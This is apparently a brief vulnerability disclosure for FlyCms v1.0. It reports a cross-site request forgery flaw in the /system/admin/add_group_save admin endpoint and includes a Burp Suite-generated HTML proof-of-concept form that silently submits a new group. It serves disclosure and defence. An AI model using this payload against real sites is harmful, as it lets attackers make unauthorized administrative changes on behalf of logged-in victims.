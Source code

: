 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/admin/add_group_save

![1](https://github.com/ysuzhangbin/cms2/assets/27912238/abe29224-ec03-4f57-bbd9-923e426fae4a)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/admin/add_group_save" method="POST">
      <input type="hidden" name="name" value="cs123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/ysuzhangbin/cms2/assets/27912238/fccd5c0d-0f65-4dcb-bfac-88b7ff287ff9)


Successed

![3](https://github.com/ysuzhangbin/cms2/assets/27912238/39d7fa21-8b85-4868-a930-ee152024fe93)
